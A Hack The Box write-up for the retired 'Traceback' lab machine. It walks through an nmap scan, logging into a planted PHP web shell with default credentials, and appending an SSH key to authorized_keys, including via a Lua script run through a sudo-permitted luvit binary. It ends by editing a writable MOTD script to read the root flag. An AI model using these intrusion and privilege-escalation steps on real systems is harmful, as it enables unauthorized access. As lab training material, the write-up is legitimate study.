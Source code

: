 ```yaml
---
layout: post
title:  "HTB Traceback Walkthrough"
author: nanobyte
date:   2020-08-31
description: Hack The Box writeup for Traceback, Retired Linux Easy Box
tags: HTB_Walkthrough SSH pspy
---
```


I began with some simple enumeration scans:

{% highlight bash linenos %}
# Nmap 7.80 scan initiated Sat Mar 14 16:47:34 2020 as: nmap -sV -sC -Pn -p- -oA traceback.htb.nmap 10.10.10.181
Nmap scan report for 10.10.10.181
Host is up (0.041s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 14 16:48:11 2020 -- 1 IP address (1 host up) scanned in 37.02 seconds
{% endhighlight %}

Once I found what was open, I began performing banner grabbing. I found that `XH4H` was listed all over the page:

{% highlight bash linenos %}
ssh xh4h@traceback.htb
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
{% endhighlight %}

This led to nothing. So, checking out http, there was a note in the soure code:

{% highlight bash linenos %}
<!--Some of the best web shells that you might need ;)-->
{% endhighlight %}

Performing some OSINT, XH4H has a GitHub and forked a project over with the best php web shells:

<a href="https://github.com/Xh4H/Web-Shells" target="_blank">https://github.com/Xh4H/Web-Shells</a>

Once I had that, I check to see if any were on the website. One was! http://traceback.htb/smevk.php. Once I logged in to the webshell with the default `admin:admin` credentials, I then found that user webadmin had ssh, and an `authorized_keys` file I could write to. I wrote my `id_rsa.pub` to the authorized keys, and logged in with ssh.

Once logged in, I found with `sudo -l`, I can run `/home/sysadmin/luvit` as sysadmin with no password. Doing some googling, luvit is a lua driven tool to learn Lua. Luvit can also run .lua files. So, I created a Lua file, to again write my id_rsa.pub to the `authorized_keys` file:

{% highlight bash linenos %}
local test = io.open("/home/sysadmin/.ssh/authorized_keys", "a")
test:write("ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDORSNFXHRLa8rC5DieG5EFcwzHa4daADnRHCN3mHIrqujoJSOeb7lNkSg0zPRd2oAJHbZx+t4YsG1fssh1bAl/FUE62D+r+0ZpD8137GipGEflnUobWhgtpez8bf8CWrvFqnVSg4KhQ5qgVLckzJRWxHbCME49BKUi8EEtZv3yEviNuKkOSQsn6IWfoPlW0bNG0gZutltE1cTGLCEsHSYKIEjyZRpSfGAywbwWagpAlJrMscOzCet19Zswc33yNZtLtUPqxfqmmVG08PV8W7jqOQeVKak= root@beast\n")
test:close()
{% endhighlight %}

And then ran that file:

{% highlight bash linenos %}
sudo -u sysadmin /home/sysadmin/luvit blah.lua
{% endhighlight %}

Once I ran that, I then logged in as sysadmin over SSH and owned user:

{% highlight bash linenos %}
ssh -i /root/.ssh/id_rsa sysadmin@traceback.htb
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Mon Mar 16 03:50:24 2020 from 10.10.14.2
$ ls
luvit  user.txt
$ cat user.txt
xxxxxxxxxxxxxxxxxxxx33ffbf0cceb2c46020
{% endhighlight %}

Enumerating, looking at pspy, I found that there is a running process every 30 seconds:

{% highlight bash linenos %}
/bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/

{% endhighlight %}
Looking in /etc/update-motd.d/ I see I have write access to 00-header, which displays the welcome message! Towards the bottom, I added the following to /etc/update-motd.d/00-header:

{% highlight bash linenos %}
[ -r /etc/lsb-release ] && . /etc/lsb-release

cat /root/root.txt
echo "\nWelcome to Xh4H land \n"
{% endhighlight %}

I then quickly logged in, and got the root flag:

{% highlight bash linenos %}
ssh -i /root/.ssh/id_rsa sysadmin@traceback.htb
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
xxxxxxxxxxxxxxxx4f6f56d822a357585d6
{% endhighlight %}
